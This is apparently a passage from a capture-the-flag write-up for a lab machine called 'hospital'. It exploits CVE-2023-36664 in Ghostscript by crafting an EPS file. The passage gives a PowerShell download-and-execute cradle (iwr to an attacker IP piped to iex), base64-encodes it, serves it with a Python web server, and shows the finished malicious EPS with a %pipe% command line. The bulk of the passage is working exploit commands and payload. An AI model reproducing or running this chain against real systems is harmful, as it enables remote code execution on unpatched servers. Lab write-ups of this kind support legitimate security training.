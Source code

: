 Okey itss seems like way. and found this at google

https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

we can creat our file with

```bash
python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload ""
```

and my payload will be

```bash
➜  hospital cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.14.36/a.ps1|iex
➜  hospital cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=%        ➜  hospital python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

now lets create it.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload "powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA="
[+] Generated EPS payload file: needle.eps
```

it will creat tihs file

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ cat needle.eps 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Welcome EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Welcome at vsociety!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
(%pipe%powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=) (w) file /DCTDecode filter
showpage% 
```
